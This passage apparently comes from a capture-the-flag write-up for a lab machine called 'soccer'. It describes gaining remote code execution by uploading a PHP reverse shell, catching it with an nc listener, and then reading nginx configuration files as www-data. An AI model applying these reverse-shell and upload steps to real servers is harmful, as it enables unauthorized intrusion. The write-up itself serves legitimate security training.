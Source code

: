 
## 2. RCE
The most important thing that we can see is the possibility to upload files

![up](Images/upload.png)

We can upload a [Reverse Shell](https://github.com/Cyberw1ng/Bug-Bounty/blob/main/rev_shell.php) and we can open a listener in local with `nc` and get the reverse connection visiting the url with an endpoint like this (`/uploads/<shell_name>`).

```bash
└─$ nc -nvlp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.11.194 43674
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 09:55:19 up  2:00,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off   
```

After a little search, I found an interesting file in `/etc/nginx/sites-enabled`.

```bash
ww-data@soccer:/etc/nginx/sites-enabled$ ls
ls
default  soc-player.htb
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb
cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```
